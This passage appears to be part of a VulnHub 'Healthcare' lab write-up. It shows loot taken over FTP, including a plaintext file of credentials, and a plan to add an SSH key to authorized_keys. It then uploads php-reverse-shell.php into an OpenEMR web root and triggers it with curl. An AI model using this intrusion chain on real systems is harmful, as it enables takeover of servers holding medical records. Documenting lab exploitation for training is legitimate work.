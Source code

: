 	│   └── ssh-XLjWYherh886
	└── Videos
	16 directories, 14 files
	```
	- `OpenEMR Passwords.pdf`
	- `Passwords.txt`
	- We can tell this a user's home directory
	- We can add our `id_rsa.pub` key to his `authorized_keys` to be able to SSH into it, but TCP/22 is not up.
4. View interesting files
	- `Passwords.txt`
		```
		┌──(root💀kali)-[~/vulnHub/Healthcare/192.168.110.8/loot/ftp]
		└─# cat 192.168.110.8/Documents/Passwords.txt 
		PCLINUXOS MEDICAL
		root-root
		medical-medical


		OPENEMR
		admin-admin
		medical-medical
		```
	- `OpenEMR Passwords.pdf`
		- Contains some default credentials, not useful
5. Head back to FTP, found out that the entire filesystem `/` is shared in FTP
6. Path to `/var/www/html/openemr`, insert `php-reverse-shell.php`
	```
	┌──(root💀kali)-[~/vulnHub/Healthcare/192.168.110.8/exploit/openemr_rce]
	└─# ftp -nv $ip 
	Connected to 192.168.110.8.
	220 ProFTPD 1.3.3d Server (ProFTPD Default Installation) [192.168.110.8]
	ftp> user medical
	331 Password required for medical
	Password: 
	230 User medical logged in
	Remote system type is UNIX.
	Using binary mode to transfer files.
	ftp> cd /var/www/html/openemr
	250 CWD command successful
	ftp> put php-reverse-shell.php 
	local: php-reverse-shell.php remote: php-reverse-shell.php
	200 PORT command successful
	150 Opening BINARY mode data connection for php-reverse-shell.php
	226 Transfer complete
	5495 bytes sent in 0.00 secs (30.2916 MB/s)
	```
7. Execute reverse shell
	```
	┌──(root💀kali)-[~/vulnHub/Healthcare]
	└─# curl 192.168.110.8/openemr/php-reverse-shell.php
	```
